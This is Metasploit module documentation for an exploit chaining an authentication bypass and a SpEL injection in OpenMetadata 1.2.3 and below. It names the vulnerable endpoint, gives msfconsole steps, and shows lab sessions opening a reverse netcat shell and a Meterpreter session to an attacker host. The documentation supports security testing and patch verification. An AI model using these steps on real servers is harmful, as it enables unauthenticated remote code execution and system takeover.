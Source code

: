 ## Vulnerable Application

OpenMetadata is a unified platform for discovery, observability, and governance powered by a central metadata repository,
in-depth lineage, and seamless team collaboration.
This module chains two vulnerabilities that exist in the OpenMetadata application.
The first vulnerability, [CVE-2024-28255](https://nvd.nist.gov/vuln/detail/CVE-2024-28255), bypasses the API authentication
using JWT tokens. It misuses the `JwtFilter` that checks the path of url endpoint against a list of excluded endpoints
that does not require authentication.
Unfortunately, an attacker may use Path Parameters to make any path contain any arbitrary strings that will match the
excluded endpoint condition and therefore will be processed with no JWT validation allowing an attacker to bypass the
authentication mechanism and reach any arbitrary endpoint.
By chaining this vulnerability with [CVE-2024-28254](https://nvd.nist.gov/vuln/detail/CVE-2024-28254), that allows for
arbitrary SpEL injection at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`,attackers are able
to run arbitrary commands using Java classes such as `java.lang.Runtime` without any authentication.

OpenMetadata versions `1.2.3` and below are vulnerable.

The following releases were tested.
* OpenMetadata 1.2.3 on Docker

## Installation steps to install the OpenMedata running on Docker
* Please follow these [installation instructions](https://docs.open-metadata.org/v1.3.x/quick-start/local-docker-deployment).
* Please ensure that you download version 1.2.3 or below.
* After successful installation your should be able to access OpenMetadata on port 8585 at `http://your_openmetadata_ip:8585`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/openmetadata_auth_bypass_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse netcat shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options

## Scenarios
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > info

       Name: OpenMetadata authentication bypass and SpEL injection exploit chain
     Module: exploit/linux/http/openmetadata_auth_bypass_rce
   Platform: Unix, Linux
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Alvaro Muñoz alias pwntester (https://github.com/pwntester)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                        html
  RPORT      8585             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The URI path of the OpenMetadata web application
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  OpenMetadata is a unified platform for discovery, observability, and governance powered
  by a central metadata repository, in-depth lineage, and seamless team collaboration.
  This module chains two vulnerabilities that exist in the OpenMetadata aplication.
  The first vulnerability, CVE-2024-28255, bypasses the API authentication using JWT tokens.
  It misuses the `JwtFilter` that checks the path of the url endpoint against a list of excluded
  endpoints that does not require authentication. Unfortunately, an attacker may use Path Parameters
  to make any path contain any arbitrary strings that will match the excluded endpoint condition
  and therefore will be processed with no JWT validation allowing an attacker to bypass the
  authentication mechanism and reach any arbitrary endpoint.
  By chaining this vulnerability with CVE-2024-28254, that allows for arbitrary SpEL injection
  at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`, attackers
  are able to run arbitrary commands using Java classes such as `java.lang.Runtime` without any
  authentication.
  OpenMetadata versions `1.2.3` and below are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-28255
  https://nvd.nist.gov/vuln/detail/CVE-2024-28254
A  https://securitylab.github.com/advisories/GHSL-2023-235_GHSL-2023-237_Open_Metadata/
  https://attackerkb.com/topics/f19fXpZn62/cve-2024-28255
  https://ethicalhacking.uk/unmasking-cve-2024-28255-authentication-bypass-in-openmetadata/


View the full module info with the info -d command.
```
### OpenMetadata 1.2.3 Automatic - cmd/unix/reverse_netcat_gaping
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set rhosts 192.168.201.42
rhosts => 192.168.201.42
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 17 opened (192.168.201.8:4444 -> 192.168.201.42:55160) at 2024-07-29 15:27:38 +0000

id
uid=1000(openmetadata) gid=1000(openmetadata) groups=1000(openmetadata)
pwd
/opt/openmetadata
uname -a
Linux 1e3c578a0acc 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 Linux
```
### OpenMetadata 1.2.3 Automatic - cmd/linux/http/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Automatic for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.42
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:50599) at 2024-07-31 14:31:37 +0000

meterpreter > getuid
Server username: openmetadata
meterpreter > sysinfo
Computer     : 172.16.240.4
OS           :  (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/openmetadata
meterpreter >
```
## Limitations
No limitations
